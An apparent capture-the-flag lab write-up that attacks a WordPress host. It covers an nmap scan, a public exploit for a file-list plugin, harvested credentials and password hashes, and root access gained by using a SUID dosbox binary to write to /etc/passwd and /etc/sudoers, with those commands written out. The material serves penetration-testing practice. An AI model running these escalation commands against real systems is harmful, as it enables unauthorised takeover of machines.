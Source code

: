 `nmap -A -T4 -p- 192.168.152.105`

```
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 8.3 (protocol 2.0)
| ssh-hostkey: 
|   3072 3e:6a:f5:d3:30:08:7a:ec:38:28:a0:88:4d:75:da:19 (RSA)
|   256 43:3b:b5:bf:93:86:68:e9:d5:75:9c:7d:26:94:55:81 (ECDSA)
|_  256 e3:f7:1c:ae:cd:91:c1:28:a3:3a:5b:f6:3e:da:3f:58 (ED25519)
80/tcp    open  http        Apache httpd 2.4.46 ((Unix) PHP/7.4.10)
|_http-generator: WordPress 5.5.1
|_http-title: Retro Gamming &#8211; Just another WordPress site
|_http-server-header: Apache/2.4.46 (Unix) PHP/7.4.10
3306/tcp  open  mysql       MariaDB 10.3.24 or later (unauthorized)
5000/tcp  open  http        Werkzeug httpd 1.0.1 (Python 3.8.5)
|_http-server-header: Werkzeug/1.0.1 Python/3.8.5
|_http-title: 404 Not Found
13000/tcp open  http        nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Login V14
36445/tcp open  netbios-ssn Samba smbd 4
```


# Wordpress
On port 80 is a standard wordpress site, we will use wpscan to do some enumeration.

![](Images/Pasted%20image%2020250504132344.png)
## Plugins
![](Images/Pasted%20image%2020250504132310.png)

Simple-File-List has a [POC](https://www.exploit-db.com/exploits/48979) for this version modify the script and run it.

![](Images/Pasted%20image%2020250504133240.png)

Grab the local flag and move on.

![](Images/Pasted%20image%2020250504133442.png)

# Post Exploitation

Transfer linpeas and get to work while thats running I will also look at the SQL as the ports was open.

![](Images/Pasted%20image%2020250504133934.png)

`commander:CommanderKeenVorticons1990`

![](Images/Pasted%20image%2020250504134032.png)

```
$P$BoktR9dJnCOMHiLEnYkPfS1Ae/7vPq/
$P$BZfPdbHEWFE2x25p5z3g/OR0S3azEX1
```

We will try to brute these but I am unsure if it will prove any results. But we can login to the host using commander as he is a valid user. We will rerun linpeas using commander.

![](Images/Pasted%20image%2020250504134858.png)

We get a bad SUID lets check it on GTFOBins. It appears this allows us to write to a file. From previous writeups we added users to /etc/passwd so lets try and that again.

From my writeup for snookums.
```
new-user:$1$ignite$3eTbJm98O9Hz.k1NTdNxe1:0:0:root:/root:/bin/bash

LFILE='/etc/passwd'
/usr/bin/dosbox -c 'mount c /' -c "echo new-user:$1$ignite$3eTbJm98O9Hz.k1NTdNxe1:0:0:root:/root:/bin/bash >c:$LFILE" -c exit
```


I think that may have broken the /etc/passwd file. Lets see if we can just make the commander user root by adding them to the sudoers file

```
LFILE='/etc/sudoers'  
/usr/bin/dosbox -c 'mount c /' -c "echo commander ALL=(ALL) NOPASSWD: ALL >> c:$LFILE" -c exit
```

After having to revert as the passwd file was broken added to sudoers worked.

![](Images/Pasted%20image%2020250504140031.png)






